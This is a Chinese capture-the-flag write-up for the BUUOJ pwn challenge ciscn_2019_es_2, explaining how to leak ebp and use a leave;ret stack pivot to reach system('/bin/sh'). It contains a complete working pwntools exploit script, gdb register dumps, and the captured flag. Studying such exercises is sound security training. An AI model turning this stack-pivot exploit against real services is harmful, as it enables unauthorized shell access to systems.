 # ciscn_2019_es_2

[题目地址](https://buuoj.cn/challenges#ciscn_2019_es_2)

rop基本学的差不多了，现在就差一些小技巧要补充了。正好这题的思路不错。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

很正常的rop配置。

```c
void vul(void)

{
  undefined local_2c [40];
  
  memset(local_2c,0,0x20);
  read(0,local_2c,0x30);
  printf("Hello, %s\n",local_2c);
  read(0,local_2c,0x30);
  printf("Hello, %s\n",local_2c);
  return;
}
```

ghidra里命名是按变量距离返回地址的大小，因此local_2c离返回地址差0x2c。明显有个栈溢出，读入了0x30的数据。程序准备了一个“后门”函数。

```c
void hack(void)

{
  system("echo flag");
  return;
}
```

最开始我真以为就这么简单，虽然溢出字节不长，但是覆盖个返回地址正好。结果仔细一看这system在这里echo flag，一点用都没有。这题不对劲，给了两个溢出点很奇怪，溢出字节不够长又是个大问题。让我们看看[wp](https://blog.csdn.net/weixin_45743302/article/details/118066603)怎么说。

看了半天总算懂了，对汇编指令不熟卡了好久。先放exp，慢慢解析。

```python
from pwn import *
p=remote('node4.buuoj.cn',26478)
leave_ret=0x080484b8
p.recvline()
payload1=b'a'*0x26+b'b'*2
p.send(payload1)
p.recvuntil('aabb')
ebp=u32(p.recv(4))  
payload2=b'a'*0x4+p32(0x08048400)+b'bbbb'+p32(ebp-0x28)+b'/bin'+b'/sh\x00'
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(ebp-0x38)+p32(leave_ret)
p.sendline(payload2)
p.interactive()
```

第一个read的溢出有什么用呢？答案是泄露程序的ebp。之前一直有误解，以为pie没开ebp等一些寄存器的值也是固定的，其实并不是。可以自己动态调试一下，ebp的值每次运行都会不一样，毕竟是程序运行时的栈帧，没法每次都保证在系统中一样。因此我们需要泄露ebp。如何泄露这点不难，printf会打印字符串到\x00结束，我们把原ebp的\x00覆盖掉printf就能帮我们泄露出ebp了。问题在于为什么要泄露？

我们的问题在于可溢出字节不够长。栈溢出长度不足时ROP，可以把栈迁移到别的地方来构造新的ROP链，一般利用leave_ret来进行栈迁移

```
leave
//mov esp ebp  将ebp指向的地址给esp
//pop ebp  将esp指向的地址存放的值赋值给ebp
ret
//pop eip  将esp指向的地址存放的值赋值给eip
```

注释的内容是汇编指令的本质。关键点在于esp指向的内容其实就是返回地址。

```
Welcome, my friend. What's your name?
a
Hello, a

a
Hello, a


Breakpoint 1, 0x080485fe in vul ()
(gdb) i r
eax            0xa                 10
ecx            0xa                 10
edx            0x0                 0
ebx            0xf7f10000          -135200768
esp            0xfff200ec          0xfff200ec
ebp            0xfff200f8          0xfff200f8
esi            0xfff201c4          -917052
edi            0xf7f6cb80          -134820992
eip            0x80485fe           0x80485fe <vul+105>
eflags         0x286               [ PF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
k4             0x0                 0
k5             0x0                 0
k6             0x0                 0
k7             0x0                 0
(gdb) x/4x $esp
0xfff200ec:     0x0804862a      0x00000001      0xfff20110      0xf7f6d020
```

理论上控制了esp相当于间接控制eip。由于leave，控制ebp相当于控制esp相当于控制eip。那我们控制这些寄存器干啥？当然是调整栈帧了。我们可以修改eip到输入的local_2c的内容中，这样长度绝对够了。这个关键payload看懂了整道题就没问题了。

```python
payload2=b'a'*0x4+p32(0x08048400)+b'bbbb'+p32(ebp-0x28)+b'/bin'+b'/sh\x00'
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(ebp-0x38)+p32(leave_ret)
```

从后面开始看。我们把程序的ebp改成了ebp-0x38，这里是local_2c的位置。可能会有疑问，local_2c看着不是ebp-0x28吗？确实是，但是ebp-0x28是一个指针，指向ebp-0x38，我们构建栈肯定要直接在内容上而不是指针傻姑娘运行。p32(leave_ret)是真正溢出到返回地址的值。那么接下来的leave将ebp赋值给esp，现在esp就在local_2c的开头了。之后还有个pop ebp，会把local_2c的前4个字节弹出到ebp中，因此开头的4个a是填充，不让要执行的system函数被弹出到ebp中。

接着ret，也就是pop eip。现在栈已经在local_2c了，leave的pop后接着system地址，顺利把system弹到eip里。接着4个b伪造system执行后的返回地址，正常rop操作。p32(ebp-0x28)就是system的参数/bin/sh。这里乍一看很奇怪，为什么p32(ebp-0x28)后还有个/bin/sh？这是因为当然不能直接把/bin/sh作为system的函数，程序会把它看成地址。ebp-0x28就是输入的payload中/bin/sh的位置，这样参数传ebp-0x28时就引用到了接下来的b'/bin'+b'/sh\x00'。ljust填充paylaod到0x28个字节，为了后面溢出。这样我们就巧妙地利用栈迁移getshell了。

### Flag
- flag{09cf3bd5-2c35-4c07-8cbf-9f2a0542312f}